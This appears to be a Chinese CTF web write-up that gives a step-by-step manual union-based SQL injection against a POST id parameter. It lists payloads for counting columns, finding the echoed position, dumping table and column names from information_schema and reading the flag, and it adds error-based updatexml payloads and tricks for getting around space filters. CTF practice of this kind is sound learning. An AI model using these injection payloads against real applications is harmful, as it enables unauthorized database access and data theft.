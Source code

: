 ```yaml
---
title: CTF SQLI
toc: true
date: 2021-04-25 17:12:07
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```


### 手注流程
1. 页面里有一个POST表单，测试会不会有注入漏洞
    POST里
    id=1'和id=1'#
    id=1' and 1=2#和id=1' and 1=1#
    前一个不回显后一个回显，那么说明存在注入。
1. 判断字段数：有四个字段
    id=1' order by 4#
1. 判断回显位：
    id=1' union select 1,2,3,4# 有正常回显
    id=1' union select 1,2,3# 无回显，证明该数据库在第四位，查询该数据库名

1. id=0' union select 1,2,3,database()# 查到表名为skctf，继续查数据表（tables）名
1. id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#
1. id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g'#
1. 查询数据：
    id=0' union select 1,2,3,skctf_flag from fl4g#
    得到flag。


### 注入各种问题处理方法
1. 提示输出信息超过一行：使用group_concat,eg:3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1
1. 字符串超过group_concat限制，使用limit 0,1单独输出，limit 0,1 表示输出第一个数据。 0表示输出的起始位置，1表示跨度为1（即输出几个数据，1表示输出一个，2就表示输出两个）。
ref：https://blog.csdn.net/forwardss/article/details/104682924
1. 替代空格：
    * 使用括号，eg：`3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1`
    * 使用内联注释：`/**/`
1. 报错注入，返回值XPATH syntax error有长度限制，为32bytes。

### 其它资源
1. sqlmap源码payload构成：https://www.anquanke.com/post/id/188173#h2-3
1. https://cloud.tencent.com/developer/article/1669841
1. https://www.yuque.com/vipkylin/vunko7/svhwwn
